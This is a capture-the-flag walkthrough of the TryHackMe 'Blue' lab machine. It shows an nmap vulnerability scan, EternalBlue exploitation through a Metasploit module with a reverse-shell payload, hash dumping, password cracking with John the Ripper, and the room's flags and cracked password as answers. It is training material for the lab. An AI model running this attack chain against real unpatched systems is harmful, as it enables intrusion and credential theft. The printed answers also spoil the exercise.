# Tryhackme - [Blue](https://tryhackme.com/room/blue) 
Written on 16/12/2021


## Description
Scan and learn what exploit this machine is vulnerable to. Please note that this machine does not respond to ping (ICMP).

## Nmap 
I started off by scanning the machine for open ports/services
The machine doesn't respond to pings so I used the **-Pn** flag

```shell
sudo nmap -vv --script=vuln -Pn -sT -sV -O --top-ports 1024 -oN nmap.txt 10.10.137.211
```

Relevant results:





We can answer the first question
> How many ports are open with a port number under 1000?

Answer: **3**

And the second
> What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

Answer: **ms17-010**

### Ms17-010

After some googling, I found out that this is a vulnerability in the [[SMB]] protocol version 1, and is reffered to as **Eternal Blue**

An attacker can send a specially crafted packet to the target vulnerable server to gain **Remote Code Execution**


## Metasploit
Seeing that this is a known exploit, Metasploit might be very useful

Searching for the exploit:



> Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

Answer: **exploit/windows/smb/ms17_010_eternalblue**

We can see the options for the exploit with `show options`



> Show options and set the one required value. What is the name of this value? (All caps for submission)

Answer: **RHOSTS**

Then use `set RHOSTS THM-MACHINE-IP`

Metasploit will use meterpreter as a default payload, however the Tryhackme Room suggests using a normal reverse shell

`set payload windows/x64/shell/reverse_tcp`

Then we can `run` the exploit

Mine was failing at first so I rebooted the THM machine as the room suggested. It still wasn't working. I rebooted it again and used the default meterpreter payload and it worked, so I stuck with it.



## Privilege escalation

The room wanted us to convert the shell to a meterpreter shell regardless, so it was alright.
> Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)

Answer: **post/multi/manage/shell_to_meterpreter**

To answer the next question I used the `info` command on a different terminal in msfconsole
> Select this (use MODULE_PATH). Show options, what option are we required to change?

Answer: **session**

Then you would list all your sessions with `sessions -l`, find the windows DOS shell session, use `set session SESSION_ID`, and then `run` the exploit. After that, change the session to the new meterpreter session.

As for me, I have a meterpreter already

The `getsystem` command in meterpreter usually tries to escalate your privileges to administrator/system privileges. However when we run getsystem this is the response:



So that's nice

Ideally, the process that meterpreter resides in should also be running with administrator privs.

The THM Room recommends migrating to such a process, however I noticed this wasn't necessary for me as I ran `getuid`:



In the screenshot above we can see that we're running meterpreter inside the spoolsv.exe process, which was started by **NT AUTHORITY/SYSTEM**

## Getting local passwords

Inside meterpreter, the `hashdump` command dumps the stored local users' password hashes



As we can see, there are 3 users, Jon being the non-default one.

> What is the name of the non-default user?

Answer: **Jon**

We could have also assumed this as the machine is named JON-PC, which showed up in the nmap scan, and is also showed by the `sysinfo` command:



### Cracking the password

After copying the passwords onto my local machine, we can crack Jon's password using John The Ripper:

```shell
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt jon.txt
```

Windows uses NTLM for hashing user passwords(--format=NT for john), and I used the popular rockyou password wordlist



And there's Jon's password

> What is the cracked password?

Answer: **alqfna22**

## Finding flags

The room guides you into finding some flags

#### flag1.txt
> Flag1? This flag can be found at the system root.

I was currently in C:\\Windows\\System32 so I had to move there


Answer: **flag{access_the_machine}**

#### flag2.txt
> Flag2? This flag can be found at the location where passwords are stored within Windows.

Windows stores passwords in Windows\\System32\\config

We can just move into it



Answer: **flag{sam_database_elevated_access}**


#### flag3.txt
> flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.

I assume this means the administrators home folder or desktop, so let's look around

After some trial and error:



There it is(bottom of the screenshot)



Answer: **flag{admin_documents_can_be_valuable}**


## Conclusion

Some good practice with Metasploit and Windows exploitation, the room indirectly shows that exploits don't always magically work and that you may have to retry and tweak your approach.


